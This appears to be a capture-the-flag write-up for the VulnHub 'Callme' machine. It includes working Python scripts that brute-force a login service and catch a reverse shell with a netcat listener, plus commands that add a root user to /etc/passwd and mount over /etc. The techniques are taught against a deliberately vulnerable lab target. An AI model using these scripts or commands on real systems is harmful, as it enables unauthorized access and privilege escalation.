 ```yaml
---
layout: post
title:  "VulnHub - Callme"
date:   2020-12-15 23:23:23 +0300
categories: [vulnhub,walkthrough]
pin: true
tags: [tcpdump,programming,mount.nfs,passwd,enumeration]
image: /images/emma.jpg
---
```

You’ll find this vm here :  `https://www.vulnhub.com/entry/callme-1,615/`

## VulnHub - Callme

#### Port Scan

- Nmap found three open ports: `22`, `111` and `2323`
- For now let's focus on port `2323`

![image]( /assets/img/callme/1.PNG)

#### Finding correct username

- The server asking for username & password<
- After the login attempt with a random credentials, the message "user does not exist" appeared
- This will help us to identify the valid usernames

![image]( /assets/img/callme/2.PNG)

I tried common username like admin, and the message "user does not exist" not appeared.<br> So, `admin` is a valid username

![image]( /assets/img/callme/3.PNG)

####  Creating brute force script

{% highlight python %}
import socket
import time

print("Script by Alienum, vm by Foxlox")
with open('10-million-password-list-top-1000000.txt') as file:
 for password in file:
  username = b"admin"
  ip = "10.0.2.108"
  port = 2323
  s = socket.socket()
  s.connect((ip, port))
  print(s.recv(1024))
  print(s.recv(1024))
  s.send(username+b'\r\n')
  print(s.recv(1024))
  s.send(password.strip().encode()+b'\r\n')
  re = s.recv(1024)
  print(re)
  print(s.recv(1024))
  print(password.strip())
  time.sleep(1.2)
  if not "Wrong password for user admin" in str(re):
   print("FOXYFOXYFOXYFOXYFOXYFOXYFOXY")
   print(password)
   break
{% endhighlight %}

- After a few minutes the password found

![image]( /assets/img/callme/4.PNG)

Each time we successfully log in to the system, it returns a random number in words.<br>Let's understand what it means

![image]( /assets/img/callme/5.PNG)

#### Tcpdump to understand

<code>sudo tcpdump -XX -i eth0 src TARGET_IP</code>

We understand that every time we successfully connect to the server, it tries to connect to the port of our system that it had previously sent in a number with words. For example, if the server sends `ONE THOUSAND FOUR HUNDRED  TWELVE` it tries to connect to our system to port `1412`

![image]( /assets/img/callme/6.PNG)

#### Creating login & listener script

{% highlight python %}
from word2number import w2n
import socket
import time
import os
print("Script by Alienum, vm by Foxlox")

while True:
 username = b"admin"
 password = b"booboo"
 ip = "10.0.2.108"
 port = 2323
 s = socket.socket()
 s.connect((ip, port))
 print(s.recv(1024))
 print(s.recv(1024))
 s.send(username+b'\r\n')
 print(username)
 print(s.recv(1024))
 s.send(password+b'\r\n')
 print(password)
 re = s.recv(1024)
 print(re)
 w2n = w2n.word_to_num(re.decode().lower().strip())
 cmd = "nc -lvnp "+str(w2n)
 os.system(cmd)
{% endhighlight %}


- After running the script we have the shell


![image]( /assets/img/callme/7.PNG)


#### SSH Login, avoid wine shell

![image]( /assets/img/callme/8.PNG)

![image]( /assets/img/callme/9.PNG)

#### Searching fox's password

```
cat startup
find / -name "recallserver.exe" 2>/dev/null
```

![image]( /assets/img/callme/10.PNG)

- strings command not found so we need to download recallserver.exe locally

![image]( /assets/img/callme/11.PNG)

- We found the possible password for user fox, the possible password is `tutankamenFERILLI`

![image]( /assets/img/callme/12.PNG)

#### Privileges Escalation

![image]( /assets/img/callme/13.PNG)

- Writing a user to /etc/passwd locally

{% highlight python %}
openssl passwd -1
Password: alienum
Verifying - Password: alienum
1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/
{% endhighlight %}

``` echo 'alien:$1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/:0:0::/root:/bin/bash' >> /etc/passwd```

![image]( /assets/img/callme/14.PNG)

- In the target system

```
 sudo mount.nfs 10.0.2.106:/etc /etc
```

![image]( /assets/img/callme/15.PNG)

#### Rooted

![image]( /assets/img/callme/16.PNG)
